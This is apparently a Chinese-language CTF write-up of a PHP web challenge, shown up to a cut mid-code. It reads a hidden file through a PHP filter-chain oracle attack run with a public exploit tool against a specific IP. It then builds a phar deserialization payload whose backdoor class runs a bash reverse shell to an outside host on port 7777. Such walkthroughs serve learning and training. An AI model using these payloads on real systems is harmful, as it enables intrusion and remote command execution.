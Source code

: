 ![image-20241229120235391](../assets/image-20241229120235391.png)

拿到题目是一个名字输入器，但这玩意没什么用

随便输一个名字就会进入到/trans1t.php

![image-20241229120412660](../assets/image-20241229120412660.png)

我们先不急着去挑战，先看看这个页面有没有什么hint

![image-20241229120524495](../assets/image-20241229120524495.png)

提示有东西在hI3t.php,但是我们没办法直接访问

接着点来到挑战来到/chal13nge.php

![image-20241229120615315](../assets/image-20241229120615315.png)

是一个图片上传，我们再查看一下源代码

![image-20241229120711021](../assets/image-20241229120711021.png)

结合刚刚看到的hI3t.php，猜测大概率是要想办法读hI3t.php

再看看这个文件上传，再上传成功后可以进行文件信息的查询，文件信息查询使用的方法很可能存在filter链的漏洞

这里是关于oracle的文件读取漏洞

> [PHP Filter链——基于oracle的文件读取攻击 - 先知社区](https://xz.aliyun.com/t/12939?time__1311=GqGxuD9Qi%3Dn4lrzG7Dy7FD8RAg4xYubPpD)
>
> 自动化工具：https://github.com/synacktiv/php_filter_chains_oracle_exploit

```
python filters_chain_oracle_exploit.py --target http://125.70.243.22:31345/chal13nge.php --file '/var/www/html/hI3t.php' --parameter image_path

//--target 目标地址 --file 要读的文件地址 --parameter 要注入的参数
```

![image-20241229125206299](../assets/image-20241229125206299.png)'

访问/x@1.php

![image-20241229125333392](../assets/image-20241229125333392.png)

我们可以看到一个后门类backdoor，通过它我们可以执行任意的命令

那我们怎么调用这个后门类呢？

结合刚刚的文件上传和文件信息查询，我们可以想到phar反序列化

```php
<?php
 
class backdoor
{
    public $cmd;
 
    function __destruct()
    {
        $cmd = $this->cmd;
        system($cmd);
    }
}
 
$a=new backdoor();
$a->cmd='bash -i >& /dev/tcp/106.55.168.231/7777 0>&1"'; //弹个shell
$phar = new Phar("test.phar");
$phar->startBuffering();
```